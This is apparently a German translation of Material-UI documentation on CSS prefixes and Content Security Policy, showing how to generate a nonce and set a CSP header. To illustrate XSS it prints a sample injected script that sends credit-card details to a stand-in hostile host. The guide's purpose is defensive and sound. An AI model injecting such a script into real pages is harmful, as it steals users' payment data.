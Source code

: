 ## CSS-Präfix

JSS verwendet Featureerkennung, um die korrekten Präfixe anzuwenden. [Seien Sie nicht überrascht](https://github.com/mui-org/material-ui/issues/9293) wenn Sie in der neuesten Version von Chrome kein bestimmtes Präfix sehen können. Ihr Browser benötigt es wahrscheinlich nicht.

## Inhaltssicherheitsrichtlinie (Content Security Policy, CSP)

### Was ist CSP und warum ist es nützlich?

Grundsätzlich verringert CSP Cross-Site Scripting (XSS)-Angriffe, indem Entwickler die Quellen angeben, aus denen ihre Assets abgerufen werden. Diese Liste wird vom Server als Header zurückgegeben. Angenommen, Sie haben eine Website unter `https://example.com` gehostet. Der CSP-Header `default-src: 'self';` erlaubt alle Assets, die sich unter `https://example.com/*` befinden und blockt alle anderen. Wenn es auf Ihrer Website einen für XSS anfälligen Bereich gibt, in dem nicht eingegebene Benutzereingaben angezeigt werden, könnte ein Angreifer Folgendes eingeben:

    <script>
      sendCreditCardDetails('https://hostile.example');
    </script>
    

Diese Sicherheitsanfälligkeit ermöglicht es dem Angreifer, irgendetwas auszuführen. Mit einem sicheren CSP-Header lädt der Browser dieses Skript jedoch nicht.

Weitere Informationen zu CSP finden Sie in den [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

### Wie kann man CSP implementieren?

Um CSP mit Material-UI (und JSS) verwenden zu können, müssen Sie eine Nonce verwenden. Eine Nonce ist eine zufällig generierte Zeichenfolge, die nur einmal verwendet wird. Daher müssen Sie eine Server-Middleware hinzufügen, um für jede Anforderung eine zu generieren. JSS hat ein [tolles Tutorial](https://github.com/cssinjs/jss/blob/next/docs/csp.md) wie man dies mit Express und React Helmet erreichen kann. Lesen Sie für einen grundlegenden Überblick weiter.

Eine CSP-Nonce ist eine Base 64-codierte Zeichenfolge. Sie können so erstellen:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

Es ist sehr wichtig, dass Sie die UUID Version 4 verwenden, da es einen **unvorhersehbaren** String generiert. Sie wenden dann dieses Nonce auf den CSP-Header an. Ein CSP-Header könnte mit der angewendeten Nonce so aussehen:

```js
header('Content-Security-Policy')
  .set(`default-src 'self'; style-src: 'self' 'nonce-${nonce}';`);
```

Wenn Sie Server Side Rendering (SSR) verwenden, sollten Sie die Nonce im `<style>`-Tag des Servers übergeben.
